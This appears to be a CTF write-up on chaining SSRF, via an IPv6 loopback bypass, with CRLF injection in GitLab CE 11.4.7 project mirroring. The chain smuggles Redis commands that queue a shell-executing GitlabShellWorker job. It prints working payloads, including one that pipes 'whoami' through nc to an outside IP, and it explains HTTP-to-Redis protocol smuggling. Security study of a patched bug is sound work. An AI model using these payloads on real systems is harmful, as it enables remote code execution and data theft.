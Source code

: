 
Lets exploit gitlab/gitlab-ce:11.4.7-ce.0 ssrf+crlf from RWCTF (from code audit to rce) 1-day

## SETUP

we were given a [Docker-Componse file](./docker-componse.yml) file  , so set it up

$ docker-compose up -d 
run the command being in docker-compose file direcroty

Visit `http:/0:5080` and you will have gitlab running

## APPROCH

So we need a RCE/File Read so that we can get flag.

There was a previous [RCE](https://gitlab.com/gitlab-org/gitlab-ce/issues/41293) reported to gitlab.

The RCE was done chaining:
* SSRF in webhooks so we can touch intranet(local services) on that network
* CRLF in webhooks causing protocol smuggling allowing us to make calls to redis with a payload causing RCE

## Webhook Functionality 

Webhook is Hook which is called whenever there is certain event.
Example : On PUSH CODE => CALL WEBHOOK TO DO A CICD UPDATE OR JUST MAIL SOMEONE THAT CODE IS PUSHED from USER-X


Now this Webhook is vulnerable to ssrf with crlf => so we can make a request to redis with following payload to push a task in to redis queue which ruby keep checking and perform action as mentioned in queue

PAYLOAD = 
```
A

 multi

 sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec
```

So something like

my.gitlab.com/?webhook[url]=127.0.0.1&webhook[token]=PAYLOAD

this will push our task into system_hook_push which is a task queue gitlab keeps checking the queue for active task

it will take our task which will call `GitlabShellWorker` with arguments `class_eval` and `"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}`

> WHY GitlabShellWorker
THIS IS Code to GitlabShellWorker
```
class GitlabShellWorker
	include ApplicationWorker
	include Gitlab:ShellAdapter

		def perform(action,*arg)
			gitlab_shell.__send__(action,*arg)
		end
	end
```

> `perform` is special method in ruby that checks active tasks in queue and execute them

So this way we end up inserting task to REDIS  and execute it


THIS WAS PREV to PREV version exploit, it was fixed in `gitlab/gitlab-ce:11.4.7-ce.0` .

But know we have to see what bugs where patched in `gitlab/gitlab-ce:11.4.7-ce.0` and if it had SSRF nd CRLF we get RCE and we are done 
So [these](https://about.gitlab.com/2018/11/28/security-release-gitlab-11-dot-5-dot-1-released/) are all patches that were made in this(gitlab/gitlab-ce:11.4.7-ce.0) version and they did fixed 

* SSRF in Webhooks(again? Maybe prev fix bypass)
	* so looking into previous commit we look for something like "ssrf fix" and we do get a commit sayiing [security-11-5-fix-webhook-ssrf-ipv6' into](https://github.com/gitlabhq/gitlabhq/commit/a9f5b22394954be8941566da1cf349bb6a179974#diff-9e66ca5e5564156b96d5a64c76a74c1f)	
	* So it indeed was a IPV6 bypass

* CRLF Injection in Project Mirroring
	* So there is CRLF too but in project mirroing , again looking through prev comit we get the actual fix ['security-fj-crlf-injection' into 'master'](https://github.com/gitlabhq/gitlabhq/commit/c0e5d9afee57745a79c072b0f57fdcbe164312da)

SSRF and CRLF at different parts of the code wont help bcz we need API to be vulnerable to both .

So when we see the code fixed for SSRF, its actually `lib/gitlab/url_blocker.rb` 
so it was a global helper file that was used everywhere(even in project mirroring) to block SSRF

So in short Project mirroring uses same protection defined in `lib/gitlab/url_blocker.rb`  as used by webhooks so SSRF persist also in PRoject mirroring.
Great now we have everything to get RCE
SSRF+CRLF in project mirroring

## EXPLOITING

So lets see how project mirroring works( from https://docs.gitlab.com/ee/workflow/repository_mirroring.html):

```
For an existing project, you can set up push mirroring as follows:

> Navigate to your project’s Settings > Repository and expand the Mirroring repositories section.
> Enter a repository URL.    <== so this is SSRF + CRLF(INJECTION POINT)
Select Push from the Mirror direction dropdown.
Select an authentication method from the Authentication method dropdown, if necessary.
Check the Only mirror protected branches box, if necessary.
Click the Mirror repository button to save the configuration.
```
Basiclly at `(/<namespace>/<projectname>/settings/repository#js-push-remote-settings)`


Finding out what works is as simple as looking at the tests written to check for the bug after the fix was deployed.
```
  it 'returns true for loopback IPs' do
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:1]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[0:0:0:0:0:ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:127.0.0.2]/foo/foo.git')).to be true
      expect(described_class.blocked_url?('https://[::ffff:7f00:2]/foo/foo.git')).to be true
  end
```

Use CRLFs to inject redis commands(Protocol smuggling from HTTP to redis).
Which is as simple as adding \n or \r to our URL(as we can see in test).
```
  shared_context 'invalid urls' do
        let(:urls_with_CRLF) do
          ["http://127.0.0.1:333/pa\rth",
           "http://127.0.0.1:333/pa\nth",
           "http://127.0a.0.1:333/pa\r\nth",
           "http://127.0.0.1:333/path?param=foo\r\nbar",
           "http://127.0.0.1:333/path?param=foo\rbar",
           "http://127.0.0.1:333/path?param=foo\nbar",
           "http://127.0.0.1:333/pa%0dth",
           "http://127.0.0.1:333/pa%0ath",
           "http://127.0a.0.1:333/pa%0d%0th",
           "http://127.0.0.1:333/pa%0D%0Ath",
           "http://127.0.0.1:333/path?param=foo%0Abar",
           "http://127.0.0.1:333/path?param=foo%0Dbar",
           "http://127.0.0.1:333/path?param=foo%0D%0Abar"]
        end
      end
```

So @ injection point payload would be
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/\n\n

multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami > /tmp/a \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"4552c3b1225428b18682c901\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec

exec

```
Putting that in mirror functionality results in a 500 returned from gitlab. This happens due to gitlab trying to render our URL and in failing to do so, refusing to respond with anything meaningful




========

## Little on Protocol Smuggling
So basically if we can inject CR-LF anywhere in request headers we get protocol smuggling

>  Whats protocol smuggling?

Basically making a call in 1 protocol that is understood by another protocol. In this example we made a HTTP call which is understood by redis.

So if there is newline thing(CRLF) anywhere  in header part, redis ignore all error and execute the redis command

```
GET /[EXPLOIT-1] HTTP/1.1     <= can be at URL
Host: 127.0.0.1:6379
Cookie: [EXPLOIT-2]           <= newline at cookie and we get CRLF

data:[EXPLOIT-3] 			  <= or some data we control
```

So if we make a HTTP call to redis, obviously it donot understand HTTP protocol but the fun part is it doesnt give error and if it finds valid redis command it will even execute it.

so [EXPLOIT-n] can be like

```
A\r\n\n
multi
lpush task "Asdf"
exec

A\n\n
```

ACTUAL request
```
GET /A\r\n\n\multi\nlpush\n task "asdf"\nexec\nA\n\n HTTP/1.1
Host: 127.0.0.1:6379
```

will end up inserting the value "Asdf" in variable "task" in redis




